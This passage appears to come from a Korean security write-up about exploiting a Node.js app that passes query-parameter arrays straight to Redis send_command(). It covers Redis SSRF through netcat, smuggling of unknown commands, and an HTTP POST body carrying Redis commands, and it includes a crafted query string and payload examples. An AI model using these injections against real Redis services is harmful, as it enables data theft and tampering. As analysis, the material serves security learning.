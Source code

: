 2. 인덱스가 있는 배열 표현 방식
   ```
   ?q[]=get&q[1][]=log_info
   ```
   이렇게 하면 `log_query = ['get', ['log_info']]` 형태로 파싱된다.

`node.js`의 `send_command()`함수는 인자를 배열 형태로 오기를 기대하기 때문에 2번과 같은 방식을 사용해야 한다.


#### 취약점이 발생하는 이유
1. 파라미터 검증 부재: req.query의 값을 직접 Redis command에 전달
2. 배열 타입 처리 방식: Array.isArray() 체크를 통과하면서도 악의적인 데이터 주입 가능
3. 자동 형변환: JavaScript의 타입 변환 특성을 이용한 우회


## Redis SSRF 취약점 분석

### Redis 서버 정보 누출
Redis는 기본적으로 인증 수단이 존재하지 않으며, "127.0.0.1"로 서비스를 바인딩한다. Redis 서버의 정보는 다음과 같이 확인할 수 있다.

```bash
$ echo -e 'info\r\n' | nc 127.0.0.1 6379
$2728
# Server
redis_version:4.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_mode:standalone
os:Linux 5.0.0-27-generic_x86_64
arch_bits:64
multiplexing_api:epoll
gcc_version:7.4.0
process_id:13438
tcp_port:6379
...
```

### SSRF를 통한 Redis 명령어 주입
Redis는 허용되지 않은 명령어가 입력되더라도 응답이 공지되지 않고 다른 명령어를 실행한다. 이런 특성은 SSRF 공격에 취약하게 만든다.  

#### 허용되지 않은 명령어 테스트
```bash
$ echo -e "anydata: anydata\r\nget hello" | nc 127.0.0.1 6379
-ERR unknown command 'anydata:'
$5
world
```

#### HTTP Body를 통한 명령어 주입
대표적인 공격 기법으로는 HTTP 프로토콜을 이용한 방법이 있으며, HTTP Body 데이터에 실행할 명령어를 포함시켜 전송한다.  
```http
POST / HTTP/1.1
host: 127.0.0.1:6379
user-agent: Mozilla/5.0...
content-type: application/x-www-form-urlencoded
data=
SET key value
...
```
이러한 방식으로 Redis에 대한 SSRF 공격이 성공하면, 해당 서버에 저장된 데이터베이스의 정보를 탈취하거나 수정할 수 있다.  
